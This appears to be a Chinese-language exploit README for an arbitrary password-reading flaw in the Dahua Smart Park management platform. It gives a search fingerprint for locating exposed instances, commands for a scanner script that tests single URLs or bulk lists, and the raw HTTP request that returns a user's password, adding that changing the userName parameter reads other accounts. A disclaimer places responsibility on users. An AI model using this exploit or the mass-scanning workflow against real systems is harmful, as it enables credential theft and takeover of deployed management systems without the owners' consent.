 # 大华智慧园区密码泄露

大华智慧园区存在任意密码读取攻击

## 指纹

app="dahua-智慧园区综合管理平台"

## 工具利用

python3 Dahua_systempass_scan.py -u http://127.0.0.1:1111 单个url测试

python3 Dahua_systempass_scan.py -f url.txt 批量检测

![poc](./poc.jpg)

修改userName参数可读取其他系统存在用户的密码

```
GET /admin/user_getUserInfoByUserName.action?userName=system HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.1197.116 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close

```

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
